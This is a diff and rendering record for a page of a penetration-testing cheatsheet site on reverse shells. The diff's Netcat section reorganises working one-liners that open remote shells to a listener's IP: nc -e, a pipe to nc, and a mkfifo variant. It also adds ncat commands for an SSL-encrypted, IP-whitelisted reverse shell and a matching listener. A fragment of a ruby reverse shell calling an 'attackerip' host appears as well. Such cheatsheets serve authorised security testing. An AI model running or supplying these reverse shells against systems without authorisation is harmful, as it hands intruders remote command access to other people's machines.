

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/reverse-shells.md, in a window 1280 px wide and 900 px high, scrolled down 603 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
added ncat for whitelisting ip and SSL

````diff
--- a/_topics/reverse-shells.md
+++ b/_topics/reverse-shells.md
@@ -77,17 +77,16 @@ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.
 **Netcat**
 
 ```shell
-nc -e /bin/sh <ip> <port>
+nc -e <shell> <ip> <port>
+/bin/sh | nc <ip> <port>
+rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f  # no `-e` flag
 ```
 
+Secure with whitelisted IP and SSL
 ```shell
-/bin/sh | nc <ip> <port>
+ncat -e <shell> --allow <whitelisted ip> --ssl <ip> <port>  # Whitelist IP and use SSL
+ncat -lvnp <port> --ssl                                            # Catch shell
 ```
-
-```shell
-rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
-```
-- no `-e` flag
 
 **Telnet**
 
````
